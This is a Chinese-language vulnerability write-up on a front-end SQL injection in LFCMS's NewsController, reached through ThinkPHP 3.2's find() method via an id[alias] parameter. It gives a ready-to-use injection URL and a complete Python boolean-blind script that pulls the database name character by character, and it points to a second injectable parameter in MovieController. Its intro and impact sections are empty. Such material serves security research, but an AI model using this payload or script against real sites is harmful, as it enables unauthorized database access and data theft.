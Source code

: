 LFCMS NewsController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

回到lfcms，漏洞起始点位于`/Application/Home/Controller/NewsController.class.php`中的`index`方法，代码如下

![1.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId24.png)

在代码第六行调用了`News`模型中的`detail`方法，跟进该方法

![2.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId25.png)

可以看到在第八行进而调用了`tp`的`find`方法，在该版本中`find`方法是可以进行注入的，同时参数`$id`是我们可控的，首先我们来看一下正常的输入情况(图中域名为本地搭建解析)

![3.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId26.png)

根据`tp3.2`的注入点构造一下语句，访问如下链接

    http://www.0-sec.org/index.php/Home/News/index/?id[alias]=where id=1 and 1--

页面与正常访问相比没有变化，查看一下数据库日志，看下后端数据库语句![4.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId27.png)

可以看到在`id`处已经可以进行`sql`语句的拼接，也就证明该处是存在可利用的注入点的，由于本套程序对于错误信息是有屏蔽的，在这里我们很难利用报错注入带出数据，在该处可以考虑使用布尔类型的盲注，两种回显状态如下

![5.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId28.png)

![6.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId29.png)

接着写一下脚本（以查询数据库名为例）

    import requests
    url = 'http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and '
    result = ''
    for i in range(1,50):
        print('-----------------------------')
        for j in range(32,127):
            payload = 'if((ascii(substr((select database()),{},1))={}),1,0)--'.format(i,j)
            temp = url+payload
            try:
                html = requests.get(temp,timeout=10)
                if 'tttest' in html.text:
                    result+=chr(j)
                    print(result)
                    break
            except:
                print('[-]error')

结果如下

![7.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId30.png)

相同原理的利用点还有很多，如位于`/Application/Home/Controller/MovieController.class.php`中的`index`方法的`id`参数，这里就不再重复分析了

参考链接
--------

> https://xz.aliyun.com/t/7844
